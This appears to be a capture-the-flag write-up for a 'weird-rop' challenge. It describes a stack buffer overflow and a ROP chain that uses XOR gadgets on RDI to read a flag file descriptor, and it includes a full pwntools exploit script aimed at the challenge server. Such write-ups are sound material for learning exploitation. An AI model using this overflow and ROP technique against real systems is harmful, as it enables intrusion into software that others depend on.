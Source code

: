 1. open up flag.txt
2. write the return value of open + '0' to stdout
3. read 200 bytes onto the stack

The read is trivially a very big buffer overflow on the stack, allowing me to control RIP. The written character is also important -- it is the ascii value corresponding to the file descriptor of flag.txt. For whatever reason this is 5 on the server and 3 locally. 

From the name and challenge description I can expect we'll be missing the usual pop etc gadgets and will have to do something more convoluted to control arguments. A quick search with ropper shows this is partially the case. We have gadgets to control RAX, RSI, and RDX, but nothing to allow direct control of RDI. What we do have is a ton of xor RDI, constant gadgets. We'll be using these XOR gadgets to set RDI equal to the flag file descriptor. There are gadgets for XOR RDI, 0x53 and XOR RDI, 0x56 so I use those. 

At this point, we have all the pieces and just need to put them together. 

1. read flag fd into some memory (I picked writeable binary area because PIE is off and the address is static)
2. write flag from that address to stdout. 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("weird-rop")

context.binary = exe
context.terminal = "kitty"
def conn():
    if args.REMOTE:
        return remote("35.224.135.84", 1000)
    elif args.GDB:
        return gdb.debug([exe.path])
    else:
        return process([exe.path])

def main():
    r = conn()

    mov_rax_1_ret = 0x000000000040100a
    mov_rax_0_ret = 0x0000000000401002
    mov_rdi_1_ret = 0x0000000000401012
    pop_rdx_ret = 0x00000000004010de
    pop_rsi_ret = 0x0000000000401000
    xor_rdi_53 = 0x000000000040107c
    xor_rdi_56 = 0x000000000040101a
    syscall_ret = 0x00000000004010db
    payload = b"A" * 24
    payload += p64(mov_rax_0_ret)
    payload += p64(pop_rsi_ret) + p64(0x0000000000402010)
    payload += p64(xor_rdi_53) + p64(xor_rdi_56)
    payload += p64(pop_rdx_ret) + p64(0x30)
    payload += p64(syscall_ret)

    payload += p64(mov_rax_1_ret)
    payload += p64(mov_rdi_1_ret)
    payload += p64(pop_rsi_ret) + p64(0x0000000000402010)
    payload += p64(pop_rdx_ret) + p64(0x30)
    payload += p64(syscall_ret)
    payload += p64(0x00401154) # main
    r.sendline(payload)
    # good luck pwning :)

    r.interactive()
```